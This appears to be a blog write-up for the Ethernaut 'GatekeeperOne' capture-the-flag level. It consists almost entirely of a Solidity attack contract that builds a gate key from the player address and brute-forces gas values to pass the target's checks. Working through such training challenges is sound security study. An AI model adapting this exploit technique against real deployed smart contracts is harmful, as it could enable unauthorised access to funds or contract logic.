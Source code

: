 +++
title = 'Ethernaut Level 13 - Gatekeeperone'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break some gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Gatekeeperone {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Hack {
    event Log(string message);

    address player = 0x3fE440d3D0A0140FaFBC56915C429dfC14De06D5;
    // Create key to pass gate 3
    bytes8 key;
    Gatekeeperone target;
    constructor(address _target) {
        target = Gatekeeperone(_target);
        uint64 gateKey = uint16(uint160(player));
        gateKey += 0x100000000;
        key = bytes8(abi.encodePacked(gateKey));
        
    }

    function attempt() public {
        // Bruteforce until gas price is correct
        for (uint256 i = 0; i < 300; i++){
            // Use `call` interface to set gas price
            // IMPORTANT target.enter{gas: _gas} does not seem to work
            (bool success,) = address(target).call{gas: (8191 * 3) + i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                break;
            }
        }

        
    }
}
```solidity